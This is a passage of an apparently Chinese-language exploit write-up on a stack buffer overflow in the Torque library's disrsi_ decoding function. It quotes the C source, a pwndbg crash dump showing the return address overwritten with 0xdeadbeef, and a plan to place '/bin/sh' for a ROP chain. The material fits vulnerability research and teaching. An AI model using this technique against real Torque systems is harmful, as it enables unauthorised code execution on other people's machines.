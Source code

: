 ```c
          return(DIS_NONDIGIT);
          }

        locval = 10 * locval + c - '0';
        }
      while (--count);
      *value = locval;
      return (DIS_SUCCESS);

      break;
    case '0':     //第一个数字不能是0
      return (DIS_LEADZRO);
      break;
    case '1':
    case '2':
    case '3':
    case '4':
    case '5':
    case '6':
    case '7':
    case '8':
    case '9':
      ndigs = c - '0';    //计算十进制字符串的长度

      if (count > 1){
      //每次都是从scratch + 1的位置开始写
        if ((*dis_gets)(stream, scratch + 1, count - 1) != (int)count - 1){
          return(DIS_EOD);
        
```

# 漏洞利用

## 发生栈溢出的现场

发现 disrsi_ 函数返回地址已经被覆盖为0xdeadbeefdeadbeef。

rdi寄存器指向我们输入的字符串“111111111”，因此可以考虑往栈上面写”/bin/sh”，这样后面rop的时候rdi指向的就直接是可执行文件的路径。

```bash
pwndbg> c 
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x00007f3e41963525 in disrsi_ () from /usr/local/lib/libtorque.so.2
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
__________________[ REGISTERS / show-flags off / show-compact-regs off ]________________
*RAX  1
 RBX  7
*RCX  0x7f3e416a9015 __ 0x3131313131313131 ('11111111')
*RDX  0x6f
*RDI  0x7ffda583cf41 __ 0x3131313131313131 ('11111111')   //注意到rdi指向我们的payload
*RSI  0x7f3e416a9015 __ 0x3131313131313131 ('11111111')
*R8   0x7f3e419734d4 (tcp_gets) __ endbr64 
*R9   0x7f3e41941b80 __ 0
*R10  0x7f3e41959a9d __ 'read_nonblocking_socket'
 R11  0x246
 R12  0x407e20 (_start) __ endbr64 
 R13  0x7ffda583e8a0 __ 1
 R14  0
 R15  0
*RBP  0x3131313131313131 ('11111111')
*RSP  0x7ffda583cfa8 __ 0xdeadbeefdeadbeef
```